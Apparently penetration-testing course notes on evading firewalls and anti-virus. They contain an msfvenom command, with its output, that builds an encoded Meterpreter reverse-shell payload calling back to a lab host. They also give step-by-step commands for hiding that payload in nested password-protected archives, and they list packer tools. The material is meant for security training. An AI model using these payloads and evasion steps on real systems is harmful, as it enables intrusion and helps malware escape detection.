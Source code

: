# Firewall and IDS/IPS Evasion
## Endpoint Protection
Endpoint protection refers to any localized device or service whose sole purpose is to protect a single host on the network. The host can be a personal computer, a corporate workstation, or a server in a network's De-Militarized Zone (DMZ).
## Perimeter Protection
Perimeter protection usually comes in physical or virtualized devices on the network perimeter edge. These edge devices themselves provide access inside of the network from the outside, in other terms, from public to private.
## Evasion Techniques
### Archives
Archiving a piece of information such as a file, folder, script, executable, picture, or document and placing a password on the archive bypasses a lot of common anti-virus signatures today. However, the downside of this process is that they will be raised as notifications in the AV alarm dashboard as being unable to be scanned due to being locked with a password. An administrator can choose to manually inspect these archives to determine if they are malicious or not.

**Generating Payloads**
```
$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5

Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 27 (iteration=0)
x86/shikata_ga_nai succeeded with size 54 (iteration=1)
x86/shikata_ga_nai succeeded with size 81 (iteration=2)
x86/shikata_ga_nai succeeded with size 108 (iteration=3)
x86/shikata_ga_nai succeeded with size 135 (iteration=4)
x86/shikata_ga_nai chosen with final size 135
Payload size: 135 bytes
Saved as: /home/user/test.js
```
Now, try archiving it two times, passwording both archives upon creation, and removing the `.rar`/`.zip`/`.7z` extension from their names. For this purpose, we can install the RAR utility from RARLabs, which works precisely like WinRAR on Windows.
```
$ wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
$ tar -xzvf rarlinux-x64-612.tar.gz && cd rar
$ rar a ~/test.rar -p ~/test.js

Enter password (will not be echoed): ******
Reenter password: ******

RAR 5.50   Copyright (c) 1993-2017 Alexander Roshal   11 Aug 2017
Trial version             Type 'rar -?' for help
Evaluation copy. Please register.

Creating archive test.rar
Adding    test.js                                                     OK 
Done
$ mv test.rar test
$ rar a test2.rar -p test

Enter password (will not be echoed): ******
Reenter password: ******

RAR 5.50   Copyright (c) 1993-2017 Alexander Roshal   11 Aug 2017
Trial version             Type 'rar -?' for help
Evaluation copy. Please register.

Creating archive test2.rar
Adding    test                                                        OK 
Done
$ mv test2.rar test2
```
### Packers
The term **Packer** refers to the result of an **executable compression** process where the payload is packed together with an executable program and with the decompression code in one single file. When run, the decompression code returns the backdoored executable to its original state, allowing for yet another layer of protection against file scanning mechanisms on target hosts. This process takes place transparently for the compressed executable to be run the same way as the original executable while retaining all of the original functionality.
A list of popular packer software:
||||
|-|-|-|
|UPX packer	|The Enigma Protector|	MPRESS
|Alternate EXE Packer	|ExeStealth|	Morphine
|MEW	|Themida